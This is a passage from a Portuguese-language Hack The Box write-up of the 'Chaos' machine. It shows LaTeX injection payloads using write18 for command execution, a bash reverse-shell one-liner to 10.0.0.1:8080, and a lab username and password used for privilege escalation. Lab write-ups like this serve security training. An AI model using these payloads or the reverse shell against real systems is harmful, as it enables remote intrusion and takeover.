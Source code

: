 Abusando do LaTeX injection, podemos obter uma possível execução de código remoto.
A estrutura do payload: `\immediate\write18{env > output}` ou `\input{output}`. Outros exemplos podem ser encontrados em [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).


Enviando uma requisição de shell reversa, temos a saída:


payload: `bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'` [ encoded as url ]


![13](/assets/images/htb/chaos/13.png)


## Escalada de privilégios 1/2


Após usar o python pty, podemos utilizar do usuário `ayush:jiujitsu` que conseguimos anteriormente.


![14](/assets/images/htb/chaos/14.png)
